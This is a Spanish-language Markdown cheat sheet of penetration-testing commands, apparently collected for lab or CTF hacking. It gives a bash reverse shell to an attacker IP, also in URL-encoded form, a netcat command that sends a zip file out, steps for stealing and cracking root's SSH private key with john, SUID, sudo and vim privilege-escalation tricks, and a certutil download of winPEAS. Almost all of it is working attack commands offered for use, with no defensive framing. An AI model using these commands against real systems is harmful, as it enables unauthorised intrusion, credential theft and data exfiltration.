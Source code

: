 ## Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:

```
wpscan –url http://ip
```
## Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:

```
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress
```

## Opciones para crear una shell inversa:

[revshell](https://www.revshells.com/)

```
 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”

bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.16.37%2F9999%200%3E%261%27
 ```
 ## En caso de querer codificarla en url, podemos realizar el siguiente comando:
 ```
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"
```

## Sacar hashes de ficheros zip:
```
zip2john muyconfidencial.zip > hash_muyconfidencial
```
## Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234
```
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
```
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos
```
stty rows x columns y
```
## Página donde ver como escalar privilegios con los binarios (sudo -l ):
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

## Visualizar todos los ficheros ordenados por directorios para ver los permisos:
```
ls -la /* | less
```
## Página donde se ven diferentes tipos de ataque:
[deephacking](https://deephacking.tech/)

## Ejemplo de uso para escalar priv con rutas absolutas:
```
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```
> **Nota:** pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

## Escalar priv por medio de SUID
Dar privilegios p.j 
/bin/bash u+s o (4777) 
Ejecutar el comando del ejemplo
bash -p 
> **Nota:** (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

## Ejemplo de Búsqueda de Archivos SUID:
```
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) 
find / -perm -4000 2>/dev/null (para buscar directorios).
```
## Otro ejemplo pero con un editor como puede ser vim:
```
vim -c una vez dentro ejecutar: ':!/bin/sh'
```

## En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en:

> **Nota:** /root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash.
```
ssh2john ficherodondeguardamoslakey > salidaficherohasheado

john ficherohasheado –wordlist /usr/share/wordlist/rockyou
```
Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada
```
sudo ssh root@ip -i ficheroconlakey
```
Enviar ficheros por netcat (Victima)
```
nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip
```

## Enviar el Archivo como Base64

```
base64 archivo.txt
base64 -d archivo_codificado.txt > archivo_recibido.txt
```

## Ver capacidades/capabilities/división de privilegios

```
getcap -r /
```

## Compartir ficheros con máquinas Windows:
```
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe
```


## Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login:
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)

## Escalada de privilegios mediante lxc
[HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[Juggernaut](https://juggernaut-sec.com/lxd-container/)

## Página con muchas técnicas y ejemplos

[LostSec](https://lostsec.xyz)

